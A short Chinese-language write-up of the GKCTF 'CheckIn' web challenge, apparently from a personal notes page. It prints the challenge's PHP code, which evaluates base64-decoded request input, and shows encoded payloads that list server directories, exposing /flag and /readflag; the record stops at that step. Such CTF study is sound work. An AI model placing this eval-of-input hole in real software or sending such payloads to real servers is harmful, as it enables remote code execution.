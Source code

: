 ```yaml
---
tags: []
created: 2020-05-26T02:16:22.785Z
modified: 2020-06-15T12:44:46.513Z
---
```

# GKCTF

总结：自己太菜了。。。

要开始注意真实漏洞环境的挖掘与利用了！

## WEB

### CheckIn

做到$_POST连接的时候没想到再套一层eval。。。

```php
<title>Check_In</title>
<?php
highlight_file(__FILE__);
class ClassName
{
        public $code = null;
        public $decode = null;
        function __construct()
        {
                $this->code = @$this->x()['Ginkgo']; // 获取$_REQUEST中的内容
                $this->decode = @base64_decode( $this->code );
                @Eval($this->decode); // 执行
        }

        public function x()
        {
                return $_REQUEST;
        }
}
new ClassName();
```

有eval，先扫描文件夹看看

```text
Ginkgo=cHJpbnRfcihzY2FuZGlyKCIuLyIpKTs= => print_r(scandir("./")) => Array ( [0] => . [1] => .. [2] => index.php )
Ginkgo=cHJpbnRfcihzY2FuZGlyKCIvIikpOw== => print_r(scandir("/"))  => Array ( [0] => . [1] => .. [2] => .dockerenv [3] => bin [4] => boot [5] => dev [6] => etc [7] => flag [8] => home [9] => lib [10] => lib64 [11] => media [12] => mnt [13] => opt [14] => proc [15] => readflag [16] => root [17] => run [18] => sbin [19] => srv [20] => start.sh [21] => sys [22] => tmp [23] => usr [24] => var )
```
